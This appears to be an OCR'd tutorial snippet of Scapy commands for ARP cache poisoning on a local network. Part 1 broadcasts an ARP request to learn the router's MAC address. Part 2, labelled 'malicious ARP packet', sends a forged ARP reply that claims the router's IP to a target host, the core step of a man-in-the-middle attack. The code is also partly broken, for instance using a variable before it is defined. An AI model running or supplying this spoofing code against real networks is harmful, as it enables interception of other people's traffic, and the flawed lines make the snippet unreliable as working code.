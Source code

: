 On Linux

scapy

ls(ARP)

# Part 1
# Create ARP request
broadcast = Ether(dst="ff:ff:ff:ff:ff:ff")
# Get router address = enter router IP
arppacket = ARP(pdst="192.168.1.1")
arppacket.show()

finalPacket = broadcast/arppacket
finalPacket.show()

# Send packet
answer = srp(finalPacket, timeout=2, verbose=True)[0]

# Print answer
mac_address = answer[0][1].hwsrc
print(mac_address)

# Show own MAC
mac_address

# Part 2
# Create malicious ARP packet to target IP
packet.pdst = "192.168.1.5"
answer = srp(finalPacket, timeout=2, verbose=False)[0]
answer
mac = answer[0][1].hwsrc
print(mac)

# MAC address of target and IP and psrc = router IP
packet = ARP(op=2, hwdst="xx:xx:xx:xx:xx:xx", pdst="192.168.1.5", psrc="192.168.1.1")
send(packet, verbose=False)

# On Windows
arp -a
